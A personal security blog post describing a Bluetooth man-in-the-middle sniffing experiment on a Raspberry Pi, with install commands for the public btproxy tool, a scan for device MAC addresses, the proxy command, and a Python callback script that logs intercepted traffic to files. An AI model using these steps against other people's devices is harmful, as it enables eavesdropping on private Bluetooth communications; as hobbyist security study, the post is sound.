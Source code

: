 ```yaml
---
layout: post
title: Security Sprint&#58 Week 10 &#38 11 - Bluetooth hacking experiment and open tools
author: terceranexus6
image:
  feature: banners/header.jpg
tags: hacking bluetooth security english mitm python
---
```


I've been quite in many things lately, which didn't allow me to study all I wanted to. I'm mainly in two things, distributed ledger experiments and hardware. But I've had in mind a **hacking experiment** for quite a long time, and finally I decided to try it. It's a **Man In The Middle** attack (or sniffing) over bluetooth connections using a python repository, I think I will omit _for what_ I wanted to know that.

<img src="{{ site.url }}/assets/images/dev.to/SaneSpanishCrayfish-max-1mb.gif" style="display: block; margin: 0 auto;">

Anyway, what I want to do here is to catch a connection between two nodes using bluetooth. The first idea is _only_ to capture the content of the connection.  For this I need a linux system, in this case I'm using debian based Raspbian in the RPi 3.  

<img src="{{ site.url }}/assets/images/dev.to/r096d85eunjfpjpc3wdk.jpg" style="display: block; margin: 0 auto;">

On it, I install some packages and clone the [repo](https://github.com/conorpp/btproxy.git) of the tool on github (**git needed here, btw**):

```
$ sudo apt-get install bluez libbluetooth-dev python-dev
$ git clone git://github.com/conorpp/btproxy

```
For installing the tool, simply use `sudo python setup.py install`.

Now we need to [get](https://www.systutorials.com/docs/linux/man/1-hcitool/) the MAC address of the both nodes.

```
$ hcitool scan
```

<img src="{{ site.url }}/assets/images/dev.to/rjcsf6kg5iiufuu7pdz6.jpg" style="display: block; margin: 0 auto;">

Once we have them, we can use them in the [most basic MITM attack](https://github.com/conorpp/btproxy/blob/master/scripts/btproxy) the tool offer, like this:

```
$ sudo btproxy <master-bt-mac-address> <slave-bt-mac-address>
```

The master is the device the sends the connection request and the slave is the device listening for something to connect to it. We can make it better passing a custom script for slave and master, as explained in the README. for this we use `btproxy -s SCRIPT` being the script something like this:

```
# script_example.py
def master_cb(req):
    """
        Received something from master, about to be sent to slave.
    """
    print '<< ', repr(req)
    open('mastermessages.log', 'a+b').write(req)
    return req

def slave_cb(res):
    """
        Same as above but it's from slave about to be sent to master
    """
    print '>> ', repr(res)
    open('slavemessages.log', 'a+b').write(res)
    return res
```
I must say this tool confusing when using two nodes being equal, such as two mobiles phones, and didn't work properly. Also for _that_ kind of sniffing I would suggest [this repo](https://github.com/vshymanskyy/BLESniffer_Python/tree/e9429371a9832d406fd6e897b2dadc2637c64976) instead, which also prepares a .pcap file out of the scanning for the phone traffic, but it might needs [hardware support](https://www.adafruit.com/product/2269), if you have an arduino you [can make](https://github.com/RedBearLab/nRF51822-Arduino) your own, tho. On the other hand, another alternative is [BTJuice](https://github.com/DigitalSecurity/btlejuice), which also works with **python** + **NodeJS**. This tool is very complete and includes an user-friendly interface for using in localhost. Also the commands are very similar to the ones used in btproxy.     

Anyway this is everything I got until now!

*Also written in: [https://dev.to/terceranexus6/security-sprint-week-10--11-bluetooth-hacking--4kh3](https://dev.to/terceranexus6/security-sprint-week-10--11-bluetooth-hacking--4kh3)*
